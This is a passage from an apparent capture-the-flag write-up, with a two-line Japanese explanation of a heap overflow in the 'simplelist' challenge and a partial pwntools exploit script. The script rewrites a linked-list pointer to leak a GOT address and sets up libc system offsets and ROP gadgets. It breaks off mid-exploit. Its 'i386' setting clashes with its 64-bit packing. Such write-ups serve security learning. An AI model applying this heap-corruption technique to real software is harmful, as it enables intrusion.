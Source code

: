### simplelist
heap上にoverflowがあるので、単方向リストを書き換えることができる。
EIPがdisableなのでAAR,AAWも簡単に作れる。

```python
#!/usr/bin/python3
from pwn import *
import sys

#import kmpwn
sys.path.append('/home/vagrant/kmpwn')
from kmpwn import *

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
HOST = "simplelist.quals.beginners.seccon.jp"
PORT = 9003

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
addr_main = elf.symbols["main"]
addr_bss = elf.bss()
got_atoi = elf.got["atoi"]

libc = ELF('./libc-2.33.so')
off_stdout = libc.symbols["_IO_2_1_stdout_"]
off_system = libc.symbols["system"]
rdi_ret = 0x401453
rsi_r15_ret = 0x401451

def add(data):
	conn.sendlineafter("> ", "1")
	conn.recvuntil("at ")
	addr = int(conn.recvline(),16)
	conn.sendlineafter(": ", data)
	return data

def edit(idx,data):
	conn.sendlineafter("> ", "2")
	conn.sendlineafter(": ", str(idx))
	conn.sendlineafter(": ", data)

def show():
	conn.sendlineafter("> ", "3")

def exploit():
	add("hoge")
	chk2 = add("hoge")
	payload = b'\x00'*0x20
	payload += p64(0x31)
	payload += p64(0x4036c8)
	payload += p64(0)
	edit(0, payload)
	show()
	conn.recvuntil("list[2]")
	conn.recvuntil(" ")
```